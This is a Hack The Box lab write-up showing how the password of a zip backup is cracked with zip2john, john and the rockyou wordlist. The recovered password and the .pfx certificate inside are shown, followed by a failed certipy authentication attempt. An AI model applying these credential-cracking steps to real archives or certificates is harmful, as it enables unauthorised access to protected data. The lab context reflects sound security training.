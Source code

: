 
# Foothold

## Cracking zip file password

lets first convert the file into a crackable hash:

```bash
zip2john winrm_backup.zip > zip.hash
```

Then unzip the rockyou wordlist (on HTB pwnbox the wordlist is compressed)

```bash
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
```

next use john for cracking it:

```bash
john /home/ch3ckm8/my_data/zip.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

```bash
john /home/ch3ckm8/my_data/zip.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:00 DONE (2025-08-18 16:01) 4.545g/s 15788Kp/s 15788Kc/s 15788KC/s surkerior..superkebab
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

great! it seems that the password is `supremelegacy`, lets now unzip the compressed file and get the `.pfx`.

```bash
└──╼ [★]$ unzip winrm_backup.zip 
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
  inflating: legacyy_dev_auth.pfx
```

unzipped successfully!

Great! we got the pfx file, what now? 

```bash
certipy auth -pfx legacyy_dev_auth.pfx
```

Tried it but no luck:

```bash
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[-] Got error: Invalid password or PKCS12 data
[-] Use -debug to print a stacktrace
```
